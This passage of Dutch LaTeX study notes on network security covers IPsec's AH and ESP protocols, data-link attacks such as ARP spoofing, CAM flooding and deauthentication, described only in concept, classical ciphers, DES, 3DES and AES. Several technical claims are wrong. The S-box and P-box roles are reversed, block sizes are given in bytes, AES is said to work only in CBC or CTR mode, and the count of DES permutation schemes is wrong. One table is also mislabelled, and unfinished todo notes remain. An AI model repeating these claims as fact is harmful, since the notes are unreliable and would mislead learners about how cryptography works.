		\item Beveiligingsmechanismen moeten maar gelden op beperkt aantal systemen (firewall of router). Het interne verkeer wordt hierdoor niet beïnvloedt.
		\item Eindgebruikers moeten zich hier niet van bewust zijn.
	\end{itemize}

	\underline{Nadelen} van IPSec:
	\begin{itemize}
		\item Er is geen beveiliging nadat het bericht de gateway heeft gepasseerd.
		\item Systeemresources zijn nodig om cryptographische functies te berekenen.
		\item De implementatie is vrij complex en het gebeurt vaak dat verschillende versies van IPSec incompatibel zijn met elkaar.
	\end{itemize}

	IPSec kent \underline{twee modi}:
	\begin{itemize}
		\item \textbf{Layer 2 tunnel mode} (default): Dit beschermt de interne routinggegevens door heel het pakket te encrypteren en een nieuw IP header vooraan toe te voegen. Dit is geschikt voor \emph{network-to-netwerk} (tussen 2 verschillende routers op verschillende locaties), \emph{host-to-network} (remote user access) en \emph{host-to-host} (private chat) communicatie.
		\item \textbf{Transport mode}:  Enkel de payload wordt geëncrypteerd zodat de IP header ongewijzigt blijft. Dit is geschikt voor \emph{end-to-end} communicatie tussen toestellen met publieke IP adressen.
	\end{itemize}
	
	\subsubsection{Protocollen}
	IPsec maakt gebruik van twee protocollen: \underline{Authentication Header} en \underline{Encapsulating Security Payload}.

	\begin{itemize}
		\item \textbf{Authentication Header} (figuur \ref{fig:authentication_header}): 
		\begin{figure}[ht]
			
\includegraphics[width=\textwidth]{authentication_header}
			\caption{Authentication Header.}
			\label{fig:authentication_header}
		\end{figure}
		Dit biedt authenticatie, data-integriteit en voorkomt IP spoofing en replay mechanismen.
		\begin{enumerate}
			\item De IP header en data payload worden gehasht.
			\item De returnwaarde van deze hashfunctie wordt gebruikt om een authentication header te maken, die toegevoegd wordt aan het originele pakket.
			\item Het pakket wordt doorgestuurd naar de IPSec router van de begunstigde.
			\item Deze router zal de IP header en data opnieuw hashen, en vergelijkt deze met de authentication header. Indien deze verschillend zijn, wil dit zeggen dat het pakket is aangepast.
		\end{enumerate}
		\item \textbf{Encapsulating Security Payload} (figuur \ref{fig:encapsulating_security_payload}): 
		\begin{figure}[ht]
			
\includegraphics[width=\textwidth]{encapsulating_security_payload}
			\caption{Encapsulating Security Payload.}
			\label{fig:encapsulating_security_payload}
		\end{figure}
		Dit biedt confidentialiteit, data-origin authenticatie en data-integriteit. Voorkomt ook replay mechanismen en biedt beperkte traffic-flow confidentialiteit.
		\begin{enumerate}
			\item ESP maakt gebruik van een confidentialiteitsfunctie. De informatie (en optioneel de IP header) wordt geëncrypteerd met een traditioneel algoritme (AES-128-CBC, AES-GCM, ...)
			\item Optioneel wordt er ook geauthenticeerd, gebruik maken van dezelfde methoden als bij de authentication header.
		\end{enumerate}

		In \underline{transport mode} biedt ESP encryptie en authenticatie, maar geen traffic flow confidentialiteit.

		In \underline{tunnel mode} biedt het wel traffic flow confidentialiteit. Een aanvaller kan enkel zien naar welk lokaal netwerk een pakket werd verstuurd, maar weet niet naar welk specifiek toestal van dit netwerk het verstuurd werd.
		
	\end{itemize}
	Beide protocollen kunnen ook gecombineerd worden in beide modi (figuur \ref{fig:ah_esp}).
	\begin{figure}[ht]
		
\includegraphics[width=\textwidth]{ah_esp}
		\caption{AH + ESP.}
		\label{fig:ah_esp}
	\end{figure}



	\subsection{Beveiligen van de datalinklaag}
	\subsubsection{Mogelijke aanvallen op de datalinklaag}
	\begin{itemize}
		\item \textbf{Content Address Memory aanval}: Het blijven versturen van valse MAC adressen zodat de CAM tabel vol geraakt. Op die manier kunnen geen nieuwe MAC adressen meer toegevoegt worden.
		\item \textbf{Address Resolution Protocol spoofing}: ARP is het mappen van een IP adres naar het bijhorende macadres. Er kunnen echter vervalste ARP berichten verstuurt worden doorheen het netwerk, zodat het IP adres van een willekeurige host gemapt wordt op het MAC adres van de aanvaller. Op die manier krijgt de aanvaller alle berichten die eigenlijk bestemd waren voor de oorspronkelijke host. 
		\item \textbf{DHCP starvation}: Het blijven versturen van DHCP requests.
	\end{itemize}
	Deze lijst kan nog uitgebreidt worden indien men spreekt over \underline{draadloze netwerken}:
	\begin{itemize}
		\item \textbf{Pakketten zijn afluisterbaar}
		\item \textbf{Deauthenticatie aanval}: Om van een draadloos netwerk te gaan, moet er een deauthenticatierequest verstuurd worden naar het access point waarop er geauthenticeerd werd. Een aanvaller kan in de naam van iemand anders zo een deauthenticatierequest versturen.
		\item \textbf{Hidden node probleem} (figuur \ref{fig:hidden_node_problem}):
		\begin{figure}[ht]
			
\includegraphics[width=\textwidth]{hidden_node_problem}
			\caption{Hidden node problem.}
			\label{fig:hidden_node_problem}
		\end{figure}
	\end{itemize}
	\todo{saai}


	\chapter{Encryptiealgoritmen}
	\section{Geschiedenis}
	Encryptiemethoden worden al eeuwenlang gebruikt om informatie onleesbaar te maken voor partijen die deze informatie niet mogen achterhalen. Deze inleiding bespreekt de basismethoden om encryptie toe te passen.
	
	Zogenaamde \textbf{substitution ciphers} zijn de meest eenvoudigste vorm van encryptie. De originele versie, ook wel \underline{Caesar cipher} genoemd, vervangt elke letter van het alfabet met een voorgedefinieerde shift in positie. Een shift van 3 zal het originele alfabet (in kleine letters) afbeelden op het verschoven alfabet (in grote letters):
	\begin{table}[ht]
	\centering
	\setlength\tabcolsep{1pt}
	\begin{tabular}{c c c c c c c c c c c c c c c c c c c c c c c c c c c}
		a&b&c&d&e&f&g&h&i&j&k&l&m&n&o&p&q&r&s&t&u&v&w&x&y&z \\
		D&E&F&G&H&I&J&K&L&M&N&O&P&Q&R&S&T&U&V&W&X&Y&Z&A&B&C
	\end{tabular}
	\end{table}
	Het duidelijke nadeel is dat er slechts 25 verschillende encryptiemogelijkheden zijn. Een verbeterde versie mapt elke letter met een willekeurige andere (nog niet gebruikte) letter:
		\begin{table}[ht]
		\centering
		\setlength\tabcolsep{1pt}
		\begin{tabular}{c c c c c c c c c c c c c c c c c c c c c c c c c c c}
			a&b&c&d&e&f&g&h&i&j&k&l&m&n&o&p&q&r&s&t&u&v&w&x&y&z \\
			D&K&V&Q&F&I&B&J&W&P&E&S&C&X&H&T&M&Y&A&U&O&L&R&G&Z&N
		\end{tabular}
	\end{table}
	waardoor er nu $26! \approx 4\cdot10^{26}$ mogelijkheden zijn. Deze manier is daarom niet meer secuur, aangezien de onderliggende frequentie van letters nog steeds dezelfde is. Een eenvoudige dencryptiemethode is om de relatieve frequenties van de ciphertekst te tellen, waardoor er statistisch kan achterhaald worden met welke gedecrypteerde letter elke geëncrypteerde letter overeenkomt. 

	Een encryptiealgoritme wil ook de relatieve frequenties verbergen. Een methode dat dit implementeert is de \underline{Vigenère Cipher}. Deze bevat een sleutel $K = k_1k_2 ... k_d$ waarbij $k_i$ het $i$-de alfabet specifieert dat gebruikt moet worden. Na $d$ letters start men terug vanaf $k_1$.

	Een laatste voorbeeld van een substitutiecipher is de \underline{Playfair cipher}. Hier wordt er een $5x5$ matrix opgesteld, waarbij eerst het sleutelwoord ingevuld wordt, gevolgd door de niet gebruikte letters in alfabetische volgorde. Dit wordt uitgewerkt met de sleutel \texttt{MONARCHY} in Tabel \ref{table:playfair}.
	\begin{table}[ht]
		\centering
		\begin{tabular}{| c | c | c | c | c |}
			\hline
			\accentuate{M} & \accentuate{O} & \accentuate{N} & \accentuate{A} & \accentuate{R} \\
			\hline
			\accentuate{C} & \accentuate{H} & \accentuate{Y} & B & D \\
			\hline
			E & F & G & I/J & K \\
			\hline
			L & P & Q & S & T \\
			\hline
			U & V & W & X & Z \\
			\hline
		\end{tabular}
		\caption{Playfair cipher.}
		\label{table:playfair}
	\end{table}
	Een bericht wordt in paren van letters geëncrypteerd. Stel dat we het woord ballon willen encrypteren, de paren letters worden: ba lx lo nx. Er wordt een x toegevoegd indien er twee dezelfde letters achter elkaar komen, en als het eindpaar uit slechts één letter bestaat. Er kunnen zich drie gevallen voordoen bij elk paar:
	\begin{enumerate}
		\item Als beide letters in dezelfde rij voorkomen, wordt elke letter vervangen door de letter die er rechts van ligt:  \accentuate(on $\rightarrow$ na).
		\item Als beide letters in dezelfde kolom voorkomen, wordt elke letter vervangen door de letter die er onder van ligt: \accentuate(ba $\rightarrow$ ib).
		\item Anders wordt elke letter vervangen door de letter van de kolom van de andere letter: \accentuate(lx $\rightarrow$ su).
	\end{enumerate}
	Er zijn $26 * 26 = 676$ mogelijke diagrammen die gemaakt kunnen worden.

	Na de \textbf{substitution ciphers} zijn er ook \textbf{transposition ciphers}. Zulke ciphers gaan letters niet vervangen, maar gaan ze echter verplaatsen. Dit heeft natuurlijk als nadeel dat de relatieve frequentie van de letters behouden wordt. Twee eenvoudige voorbeelden zijn:
	\begin{enumerate}
		\item Keer elke letter om:
			$$\texttt{A SIMPLE EXAMPLE} \rightarrow \texttt{ELPMAXE ELPMIS A}$$
		\item Keer de woordvolgorde om, en elk woord keert ook de lettervolgorde om:
			$$\texttt{A SIMPLE EXAMPLE} \rightarrow \texttt{A ELPMIS ELPMAXE}$$
	\end{enumerate}
	Een iets beter voorbeeld is de \underline{Rail Fence cipher}. Deze heeft als private sleutel het aantal rijen dat gebruikt wordt. Elke letter zal diagonaal geschreven worden, uitgewerkt in Tabel \ref{table:railfence} op de zin \texttt{DEFEND THE EAST WALL}: 
	\begin{table}[ht]
		\centering
		\begin{tabular}{|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|c|}
			\hline
			D & & & & N & & & & E & & & & T & & & & L & & \\
			\hline
			& E & & E & & D & & H & & E & & S & & W & & L & & X & \\
			\hline
			& & F & & & & T & & & & A & & & & A & & & & X \\
			\hline
		\end{tabular}
		\caption{Rail Fence cipher.}
		\label{table:railfence}
	\end{table}
	Geëncrypteerd is dit dus \texttt{DNETLEEDHESWLXFTAAX}.

	De laatste methode die besproken wordt is de \underline{columnar transposition cipher}. Een bericht wordt in rijen geschreven over een bepaald aantal kolommen. Hierna worden de kolommen gesorteerd op basis van de private sleutel $K = k_ik_j ... k_n$. Stel $K = k_3k_4k_2k_1k_5k_6k_7$ en plaintext \texttt{ATTACK POSTPONED UNTIL TWO AM}: Op Tabel \ref{table:columnartransposition} wordt deze plaintext uitgeschreven in rijen en kolommen. De ciphertext wordt dan \texttt{TTNAAPTMTSUOAODWCOIXKNLYPETZ}.
	\begin{table}[ht]
		\centering
		\begin{tabular}{|c|c|c|c|c|c|c|}
			\hline
			A & T & T & A & C & K & P \\
			\hline
			O & S & T & P & O & N & E \\
			\hline
			D & U & N & T & I & L & T \\
			\hline
			W & O & A & M & X & X & X \\
			\hline
		\end{tabular}
		\caption{Rail Fence cipher.}
		\label{table:columnartransposition}
	\end{table}

	Uiteindelijk kan men ook de combinatie maken van \textbf{substitution} en \textbf{transposition} ciphers, wat de basis vormt van moderne cryptografie.

	\section{Symmetrische algoritmen}
	Vooraleer er in detail kan ingegaan worden op symmetrische algoritmen, moet eerst de term \textbf{block cipher} besproken worden. Een block cipher wil zeggen dat informatie in blokken zullen verstuurd worden en kan best vergeleken worden met een substitutiecipher, maar dan toegepast op blokken. Een typische blokgrootte varieert van 8 tot 128 bytes en wordt door de meeste algoritmen gebruikt. De \textbf{Feistel Cipher encryptie} vormt de basis van moderne blockciphers en maakt gebruik van twee primitieve encryptieoperaties:
	\begin{itemize}
		\item Substitutie of Diffusion (de S-box)
		\item Permutatie of Confusion (de P-box)
	\end{itemize}
	Het Feistel encryptieschema maakt gebruik van $n$ ronden, een functie $F$ en de sleutel voor ronde $i, K_i$. De data wordt opgesplitst in twee delen. Op het linkerdeel wordt altijd een substitutie uitgevoerd, gebaseerd op $F$. Bij de start van een volgende ronde worden beide delen van plaats verwisseld, zodat nu het rechterdeel de functie heeft als linkerdeel. Het decryptieschema werkt op exact dezelfde manier, maar beginnend van de geëncrypteerde data. De sleutels $K_i$ worden dan wel in omgekeerde volgorde behandeld.

	\subsection{DES \& 3-DES}
	\begin{figure}[ht]
	
\begin{tikzpicture}[
		base/.style = {rectangle, text centered, draw=black, minimum height=1cm, minimum width=3.25cm},
		orange/.style = {base, fill=orange!15},
		blue/.style = {base, fill=blue!15},
		every node/.style={fill=white, align=center},
		node distance=1.5cm
		]
		\node (plaintext) [orange] {64 bits plaintext};
		\node (IP) [blue, below of=plaintext] {Initieële permutatie};
		\node (it1) [blue, below of=IP] {Iteratie 1};
		\node (it2) [blue, below of=it1] {Iteratie 2};
		\node (itx) [blue, below of=it2] {...};
		\node (it16) [blue, below of=itx] {Iteratie 16};
		\node (bitswap) [blue, below of=it16] {32 bit swap};
		\node (invIP) [blue, below of=bitswap] {Inverse permutatie};

		\node (key) [orange, right of=plaintext, xshift=8cm] {56 bits key};
		\node (PC1) [blue, below of=key] {Permutatieschema 1};
		\node (LCS1) [blue, below of =PC1] {Circulaire left shift};
		\node (LCS2) [blue, below of =LCS1] {Circulaire left shift};
		\node (LCSx) [blue, below of =LCS2] {...};
		\node (LCS16) [blue, below of =LCSx] {Circulaire left shift};

		%PC2x => Permutatieschema 2 voor ronde x
		\node (PC21) [blue, left of= LCS1, xshift=-3.25cm] {Permutatieschema 2};
		\node (PC22) [blue, left of= LCS2, xshift=-3.25cm] {Permutatieschema 2};
		\node (PC2x) [blue, left of= LCSx, xshift=-3.25cm] {...};
		\node (PC216) [blue, left of= LCS16, xshift=-3.25cm] {Permutatieschema 2};

		\node (ciphertext) [orange, below of=invIP] {64 bits ciphertext};

		\draw[->] (plaintext) -- (IP);
		\draw[->] (IP) -- (it1);
		\draw[->] (it1) -- (it2);
		\draw[->] (it2) -- (itx);
		\draw[->] (itx) -- (it16);
		\draw[->] (it16) -- (bitswap);
		\draw[->] (bitswap) -- (invIP);
		\draw[->] (invIP) -- (ciphertext);

		\draw[->] (key) -- (PC1);
		\draw[->] (PC1) -- (LCS1);
		\draw[->] (LCS1) -- (LCS2);
		\draw[->] (LCS2) -- (LCSx);
		\draw[->] (LCSx) -- (LCS16);

		\draw[->] (LCS1) -- (PC21);
		\draw[->] (LCS2) -- (PC22);
		\draw[->] (LCSx) -- (PC2x);
		\draw[->] (LCS16) -- (PC216);

		\draw[->] (PC21) -- node[yshift=0.5cm]{$K_1$} (it1);
		\draw[->] (PC22) -- node[yshift=0.5cm]{$K_2$}  (it2);
		\draw[->] (PC2x) -- node[yshift=0.5cm]{$K_n$}  (itx);
		\draw[->] (PC216) -- node[yshift=0.5cm]{$K_{16}$}  (it16);

	\end{tikzpicture}
	\caption{DES schema.}
	\label{fig:DES}
\end{figure}

	Het \textbf{DES (Data Encryption Standard)} algoritme maakt gebruik van het reeds vermelde Feistel schema waarbij de \textbf{blokgrootte 64 bits} en \textbf{sleutelgrootte 56 bits} bedraagt. Deze methode is redelijk traag, ondanks de kleine blokgrootte, en wordt door de kleine sleutelgrootte ook als onveilig beschouwd. Een 56 bit sleutel kan namelijk binnen de 10 uur gekraakt worden indien het aantal operatiers per \textbf{micro}seconde $10^6$ bedraagt. 
	
	Het algoritme maakt gebruik van 16 ronden in het Feistel schema. De 56 bit sleutel wordt gebruikt om iteratiesleutels $K_1, K_2, ... K_{16}$ te bepalen, die elk 48 bits groot zijn. Voor de eerste ronde en na de laatste ronde wordt er een extra permutatie uitgevoerd, waarbij de laatste permutatie het inverse is van de eerste permutatie. Het resultaat van dit algoritme is één van de $2^{64}$ uitvoermogelijkheden van de 64 bits. 

	De 16 vereiste iteratiesleutels worden in het begin van het algoritme aangemaakt. Eerst en vooral wordt de 56 bit sleutel gepermuteerd, afhankelijk van het gekozen permutatieschema, op Figuur \ref{fig:DES} permutatieschema 1 genoemd. Een permutatieschema mapt een bit van de oorspronkelijke sleutel op een bit van de gepermuteerde sleutel, zodat er $2^{64}$ mogelijke schemas bestaan. De gepermuteerde sleutel wordt hierna beschouwd als twee resultaatsleutels $C_n$ en $D_n$, met $n$ het huidig rondenummer, van elk 28 bits groot. Beide resultaatsleutels worden onafhankelijk van elkaar verwerkt door een circulaire left shift van 1 of 2 bits, afhankelijk van de vorige ronde, dat eenvoudig door de conditionele operator kan beschreven worden: $(n - 1)\;\%\;2 == 0\;?\;2\;:\;1$. Indien $C_2$ en $D_2$ de resultaatsleutels zijn van ronde 2, dan zijn $C_3$ en $D_3$ de resultaatsleutels van ronde 3 door respectievelijk $C_2$ en $D_2$ 2 bits naar links te permuteren. Voor elke iteratiesleutel $K_i$, wordt er een tweede permutatieschema, op Figuur \ref{fig:DES} permutatieschema 2 genoemd, toegepast op $C_nD_n$, waarbij de 8 meest significante bits van $C_n$ genegeert worden. Het eindresultaat zijn 16 verschillende iteratiesleutels, die zullen toegepast worden bij elke DES ronde. 

	Vooraleer het iteratieproces plaatsvindt is er eerst een initiële permutatie van het hele 64-bit blok. Deze permutatie wordt uitgevoerd met behulp van een permutatieschema, zoals bij de sleutelgeneratie. Het gepermuteerde blok wordt hierna opgedeeld in de blokken $L_1$ en $R_1$ waarbij de 32 meest significante bits in $L_1$ komen, en de 32 minst significante bits in $R_1$, en kan ronde 1 van start gaan. Bij elke iteratie wordt de functie $F$ gebruikt, die twee blokken manipuleert: $R_{n-1}$ en de sleutel van 48-bit groot, die op voorhand al gegenereerd werd. Omdat de functie $F$ bij elke iteratie wordt gebruikt wordt het ook wel de iteratiefunctie genoemd. De uiteindelijke uitvoer van de iteratiefunctie is een blok 32 bits. $L$ en $R$ kan voor een volgende iteratie berekent worden als:
	\begin{equation}
		\begin{split}
			L_{n + 1} & = R_{n} \\
			R_{n + 1} & = L_{n} \mathbin{\oplus} F\big(R_{n}, K_{n}\big)
		\end{split}
		\label{formula:DES}
	\end{equation}

	Hoe werkt de iteratiefunctie? Eerst moet het blok $R_n$ uitgebreidt worden via een selectietabel. Het gebruik van deze selectietabel wordt hier voorgesteld als de functie $E(R_n)$, die als input een blok van 32-bit heeft en zal als output een blok van 48-bit genereren waarbij de bits gegroepeerd per 6 zitten. Sommige bits van $R_n$ worden zullen dus meerdere keren gemapt moeten worden. Na deze uitbreiding wordt het resultaat van $E(R_n)$ en de sleutel $K_n$ met een XOR operatie bewerkt (XOR geeft 0 indien beide bits gelijk zijn, en 1 als ze verschillend zijn). Elke groep van 6 bits stelt een adres voor in een welbepaalde substitutietabel $S_i$, voor de $i$-de groep van 6 bits: er zijn dus 8 substitutietabellen. Elk adres wijst naar een 4-bit getal, dat de originele 6 bits zal vervangen, zodat het eindresultaat terug een blok van 32 bits is. Hoe worden deze 4 bits bepaald? De substitutietabel neemt een blok van 6 bits $b_5b_4b_3b_2b_1b_0$ van $B$ als input en voert volgende procedure uit:
	\begin{enumerate}
		\item $b_5$ en $b_0$ representeren tesamen een getal van 0 tot en met 3. Stel dit getal gelijk aan $i$. 
		\item De tussenliggende bits representeren tesamen een getal van 0 tot en met 15. Stel dit getal gelijk aan $j$.
		\item Zoek in de tabel het getal op de $i$-de rij en $j$-de kolom. Dit getal heeft een waarde tussen 0 en 15, en bevat dus slechts 4 bits. Deze bitrepresentatie van dat getal vervangt de 6 bits.
	\end{enumerate}
	Tot slot moet er nog een permutatie $P$ uitgevoerd worden op de 32 bits verkregen van de substitutiestap, zodat enkel nog de XOR operatie moet gedaan worden met $L_n$ om zo $R_{n + 1}$ te bepalen. De iteratiefunctie kort genoteerd:
	$$F(R_n, K_n) = P\bigg(S\big(E(R_n) \mathbin{\oplus} K_n \big)\bigg)$$

	\subsubsection{Block cipher modi}
	Er zijn verschillende implementaties van het DES-algoritme, en deze hangen dan weer af van de gebruikte block cipher modus. Verschillende mogelijkheden zijn:
	\begin{itemize}
		\item \textbf{ECB (Electronic Code Book).} Elk 64-bit blok van de oorspronkelijke informatie wordt individueel geëncrypteerd
		\item \textbf{CBC (Cipher Block Chaning).} Elk cipherblok is nu afhankelijk van elkaar, door een initiële XOR-operatie uit te voeren met het vorige geëncrypteerde blok, en het te encrypteren blok. Maakt ook gebruik van een initialisatievector en moet gekend zijn voor de zender en ontvanger.
		\item \textbf{CFB (Cipher Feedback).} Gelijkaardig aan CBC, maar \todo{wat?}
		\item \textbf{OFB (Output Feedback)} \todo{ik vind dit maar raar uitgelegd}
		\item \textbf{CTR (Counter)}
	\end{itemize}
	\subsubsection{3-DES}
	Omdat de opgelegde sleutelgrootte van \textbf{56 bits} voor DES onvoldoende is, gaan we DES drie maal na elkaar uit te voeren. De sleutelgrootte bedraagt nu \textbf{168 bits}. Dit is natuurlijk nog trager dan DES, wat al behoorlijk traag is. De sleutel van 168 bits wordt nu opgedeeld in 3 sleutels van elk 56 bits, $K_1, K_2$ en $K_3$. De plaintext wordt eerst in geëncrypteerd met DES en sleutel $K_1$, de ciphertext hiervan wordt gedecrypteerd met DES en sleutel $K_2$, de plaintext hiervan wordt terug geëncrypteerd maar met sleutel $K_3$. 3DES is nog altijd nutteloos, en wordt aangezien als een zwak encryptiealgoritme. 
	\subsection{AES}
	\todo{no clue what w[x, y] wil zeggen + DECRYPTIE (SLIDE 96)}
	\begin{figure}[ht]
		\begin{tikzpicture}[
			base/.style = {rectangle, text centered, draw=black, minimum height=1cm, minimum width=3.25cm},
			orange/.style = {base, fill=orange!15},
			blue/.style = {base, fill=blue!15},
			every node/.style={fill=white, align=center},
			node distance=1.5cm
			]
			\node (plaintextE) [orange] {128 bits plaintext};
			\node (addkeyE) [blue, below of = plaintextE] {Toevoegen sleutel};
			\node (it1) [blue, below of=addkeyE] {Iteratie 1};
			\node (it2) [blue, below of=it1] {Iteratie 2};
			\node (itx) [blue, below of=it2] {...};
			\node (it10) [blue, below of=itx] {Iteratie 10};

			\node (ciphertextE) [orange, below of =it10] {128 bits ciphertext};

			\draw[->] (plaintext) -- (addkeyE);
			\draw[->] (addkeyE) -- (it1);
			\draw[->] (it1) -- (it2);
			\draw[->] (it2) -- (itx);
			\draw[->] (itx) -- (it10);
			\draw[->] (it10) -- (ciphertextE);

	
		\end{tikzpicture}
		\caption{AES schema.}
		\label{fig:AES}
	\end{figure}

	Het \textbf{AES (Advanced Encryption Standard)} algoritme is ook een symmetrisch encryptiealgoritme waarbij de \textbf{blokgrootte 128 bits} en \textbf{sleutelgrootte 128, 192 of 256 bits} bedraagt. Het werd speciaal ontworpen om cryptoanalyse moeilijk te maken en is zelfs sneller dan 3DES op 32-bit toestellen. Op Figuur \ref{fig:AES} wordt het schema getoond voor een blokgrootte van 128 en een sleutelgrootte van 128 bits. Het schema is gelijkaardig voor een sleutelgrootte van 192 of 256 bits, maar hebben dan respectievelijk 12 en 14 iteraties (voor 128 bits zijn er 10 iteraties). Het algoritme is ongeveer 2,5 maal sneller dan het DES algoritme (200 Mbit/s versus 80 Mbit/s) en werkt uitsluitend voor CBC of CTR block cipher modi. Bovendien is het heel goed \textbf{paralleliseerbaar}.
	\subsection{Andere symmetrische algoritmen}
	\begin{itemize}
		\item[\info] Blowfish / twofish.
		\item[\info] RC5
		\item[\info] CAST5 
		\item[\info]...
	\end{itemize}

	\section{Asymmetrische algoritmen}
	\subsection{RSA}
